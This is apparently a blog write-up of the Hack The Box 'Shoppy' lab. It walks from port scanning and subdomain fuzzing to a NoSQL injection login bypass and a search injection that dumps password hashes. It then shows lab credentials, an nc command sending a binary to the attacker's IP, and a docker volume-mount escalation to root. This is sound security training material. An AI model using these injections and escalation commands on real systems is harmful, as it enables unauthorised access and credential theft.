 ```yaml
---
layout: post
title:  Hack the Box Shoppy
image: /assets/img/HTB-Logo.png
date:   2023-01-12 14:11:01
tags:
- pentest
description: Basic pentest challenge
categories:
- Hack The Box
---
```



Run nmap on the IP we get 2 ports open, port 80 and port 22 for SSH:

```
# Nmap 7.93 scan initiated Thu Jan 12 05:45:47 2023 as: nmap -sV -Pn -oN nmap.out 10.10.11.180
Nmap scan report for 10.10.11.180
Host is up (0.028s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 12 05:46:02 2023 -- 1 IP address (1 host up) scanned in 15.07 seconds
```

The first page looks like:

![](/assets/img/2023-01-12-14-21-04.png)

We run gobuster on the server and see a logon portal.

```
└─$ gobuster dir -w /home/kali/Desktop/stuff/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://shoppy.htb 
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/Desktop/stuff/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/01/12 05:48:47 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 302) [Size: 28] [--> /login]
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/js                   (Status: 301) [Size: 171] [--> /js/]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
Progress: 114441 / 114442 (100.00%)
===============================================================
2023/01/12 06:03:01 Finished
===============================================================
```

After trying the following github repos of SQL injections:

https://github.com/payloadbox/sql-injection-payload-list
https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/NoSQL%20Injection/Intruder/NoSQL.txt
https://github.com/DevanshRaghav75/NoSQL_injection_stuff
https://book.hacktricks.xyz/pentesting-web/nosql-injection


I discovered that the following request worked:

```
POST /login?error=WrongCredentials HTTP/1.1

Host: shoppy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://shoppy.htb
Connection: close
Referer: http://shoppy.htb/login?error=WrongCredentials
Upgrade-Insecure-Requests: 1


username=admin'||' &password=admin
```
After logging in you have to work the search to discover another user:


Searching for `' || '1==1` will give you 2 accounts admin and josh. 

You cannot break the hash for admin, but for josh you can find it online:

```
0	
_id	"62db0e93d6d6a999a66ee67a"
username	"admin"
password	"23c6877d9e2b564ef8b32c3a23de27b2"
1	
_id	"62db0e93d6d6a999a66ee67b"
username	"josh"
password	"6ebcea65320589ca4f2f1ce039975995"
```
remembermethisway is the pass jor josh .

Next you need to do recon again, because we missed a subdomain.

`ffuf -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" -w /home/kali/Desktop/stuff/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt --fs 169 `

where fs is the size of the bad response.

Afterwards we can discover a password in the mattermost channel:

![](/assets/img/2023-01-12-14-43-49.png)

Using ssh we logon to the page and run linpeas.

We see that we can execute an executable as user deploy:

![](/assets/img/2023-01-12-14-45-28.png)

Afterwards we download the executable using nc `nc -w 3 10.10.14.77 8888 < /home/deploy/password-manager` .

We reverse engineer/ just cat the binary and get Sample as the password:

![](/assets/img/2023-01-12-14-47-39.png)

After getting the other user password which is granted by the manager upon entering Sample 

```
(Deploy Creds :
username: deploy
password: Deploying@pp!
)
```

We switch users, and look for a way to gain root. We run linpeas again, and look at the thing that we are in a docker container.

We run deepce and it gives us 2 leads.


![](/assets/img/2023-01-12-14-49-51.png)

The easiest for me was running `docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/bash` and this makes us root.

Last flag:


`ebb276b6cfee6bc206ffbf73797e937f`


